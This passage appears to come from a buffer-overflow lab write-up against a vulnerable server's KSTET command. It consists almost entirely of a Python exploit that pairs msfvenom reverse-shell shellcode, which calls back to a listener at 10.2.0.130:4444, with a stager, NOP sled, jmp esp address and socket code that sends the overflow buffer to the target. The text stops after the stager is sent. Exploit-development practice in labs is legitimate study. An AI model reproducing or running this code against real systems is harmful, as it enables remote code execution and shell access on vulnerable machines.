 Below is the final exploit using the `windows/shell_reverse_tcp` payload from msfvenom:

```python
import os
import socket
import sys
import time

host = '10.2.0.129'
port = 9999

# Payload generated with: msfvenom -p windows/shell_reverse_tcp LHOST=10.2.0.130 LPORT=4444 -f python -v payload
payload =  ""
payload += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += "\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += "\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += "\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += "\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += "\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
payload += "\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += "\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += "\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += "\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
payload += "\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
payload += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
payload += "\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
payload += "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x02"
payload += "\x00\x82\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
payload += "\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
payload += "\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
payload += "\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
payload += "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
payload += "\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
payload += "\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
payload += "\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
payload += "\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
payload += "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
payload += "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

stager =  '\x54\x58\x66\x05\x88\x01\x83\xec'
stager += '\x64\x33\xdb\x53\x80\xc7\x04\x53'
stager += '\x54\x5b\x83\xc3\x64\x53\xff\x30'
stager += '\xb8\x90\x2c\x25\x40\xc1\xe8\x08'
stager += '\xff\xd0'

buffer =  'KSTET '
buffer += stager
buffer += '\x90' * (70 - len(stager)) # nop sled to final payload
buffer += '\xaf\x11\x50\x62'          # jmp esp
buffer += '\xeb\xb4'                  # jmp 0x0110f97e
buffer += '\x90' * 500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

print '[*] Connected to target'

s.recv(1024)
s.send(buffer)

print '[*] Sent stager, waiting 5 seconds...'
```